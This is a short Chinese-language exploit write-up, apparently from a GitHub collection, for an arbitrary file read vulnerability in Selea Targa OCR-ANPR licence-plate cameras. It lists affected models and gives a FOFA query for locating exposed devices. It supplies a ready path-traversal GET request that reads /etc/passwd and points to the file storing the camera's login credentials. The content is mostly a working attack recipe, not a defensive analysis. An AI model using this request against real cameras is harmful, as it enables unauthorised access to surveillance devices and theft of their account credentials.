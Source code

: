 # Selea OCR-ANPR摄像机 SeleaCamera 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

```
Selea Selea Targa IP OCR-ANPR Camera iZero
Selea Selea Targa IP OCR-ANPR Camera Targa 512
Selea Selea Targa IP OCR-ANPR Camera Targa 504
Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
Selea Selea Targa IP OCR-ANPR Camera Targa 805
Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
Selea Selea Targa IP OCR-ANPR Camera Targa 750
Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB
```

## FOFA

```
"selea_httpd"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140932431.png)

发送如下请求包读取文件

```plain
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140932589.png)

摄像头账号密码文件为 **mnt/data/auth/users.json**

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140932748.png)



